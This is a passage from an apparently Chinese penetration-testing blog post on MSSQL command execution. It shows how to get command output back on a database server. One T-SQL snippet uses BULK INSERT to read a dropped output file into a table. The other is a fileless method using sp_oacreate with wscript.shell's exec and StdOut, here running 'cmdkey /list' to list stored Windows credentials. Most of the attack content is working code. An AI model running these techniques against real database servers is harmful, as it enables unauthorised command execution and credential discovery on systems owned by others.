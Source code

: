 ![img](https://www.yunzhijia.com/microblog/filesvr/5dab2da732f2ca14fb88e85c)

同时通过创建数据库表,插入绝对路径文件到字段也是可以实现获取命令输出结果,显然这种方法不是最佳的选择,完整命令如下：

```
use tempdb;
create table aaaa(a text);
BULK INSERT aaaa
FROM 'C:\xampp\whoami.txt'
WITH (
FIELDTERMINATOR = 'n',
ROWTERMINATOR = 'nn')
select * from aaaa
```

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2dc728011f6d69bc356f)

## 二、wscript.shell.exec

以上二种方法原理都需将文件落地到目标服务器上进行读取，

是否能尝试无文件落地直接获取命令输出呢？

通过查阅相关网上资料，发现大多都是通过wscript.shell run执行系统程序，

于是，我尝试跟进wscript.shell对象，枚举出可以调用的方法如下：

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2e3732f2ca14fb88e892)

```
CreateShortcut 
Run 
Popup 
RegDelete 
RegRead 
RegWrite 
SendKeys
Exec
.....
```

其中run的返回值是一个整数，而exec方法的返回值是一个对象，从返回对象中可以取到控制台错误和控制台信息，即stdout和stderr属性。

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2eab28011f6d69bc35b4)

故成功通过调用wscript.shell实例exec中stdout实现无文件落地回显命令：

```
declare @shell int,@exec int,@text int,@str varchar(8000);
exec sp_oacreate 'wscript.shell',@shell output 

exec sp_oamethod @shell,'exec',@exec output,'cmd.exe /c cmdkey /list'
exec sp_oamethod @exec, 'StdOut', @text out;
exec sp_oamethod @text, 'ReadAll', @str out
select @str
```
